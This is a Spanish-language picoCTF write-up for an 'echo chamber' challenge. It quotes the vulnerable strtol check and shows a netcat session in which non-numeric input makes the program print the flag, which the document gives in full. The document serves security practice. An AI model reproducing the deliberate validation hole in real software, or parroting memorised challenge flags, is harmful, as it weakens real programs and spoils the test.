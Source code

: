 ## Objetivo
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 49698` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/541/program-redacted.c).

## Solucion
```bash
Al revisar el codigo fuente nos damos cuenta que en la funcion data_read() se imprime la bandera si la opcion es 0, pero no hay opcion 0, entonces vemos que si generamos una excepcion al tratar de convertir la cadena, este se hace 0:

if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
  
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
6
6
Please enter the length of your data:
1
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
ewqeweqwewq
ewqeweqwewq
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ 


```

## Notas adicionales

## Referencias